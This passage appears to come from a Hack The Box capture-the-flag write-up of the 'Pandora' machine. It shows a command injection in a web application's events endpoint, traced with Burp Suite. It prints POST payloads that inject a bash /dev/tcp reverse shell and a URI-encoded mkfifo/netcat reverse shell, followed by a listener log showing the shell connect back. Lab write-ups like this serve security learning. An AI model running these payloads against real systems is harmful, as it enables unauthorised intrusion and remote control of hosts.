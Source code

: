 It's triggered when "View events" clicked.

![](attachments/pandora_8.png)

Then Burpsuite soon captures the request as follows;

![](attachments/pandora_9.png)

By sending modified data in POST request, I can trigger command injection.
Here's the PoC;

```
page=include/ajax/events&perform_event_response=10000000
&target=bash -i >%26 /dev/tcp/10.10.14.7/9000 0>%261&response_id=1
```

I encoded the command line as URI format.

```
page=include/ajax/events&perform_event_response=10000000&target=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.7%209000%20%3E%2Ftmp%2Ff&response_id=1
```

Then, listener soon spawns a shell.

```shell
┌──(kali㉿kali)-[~/htb/pandora]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.136] 42106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
$ whoami
matt
```
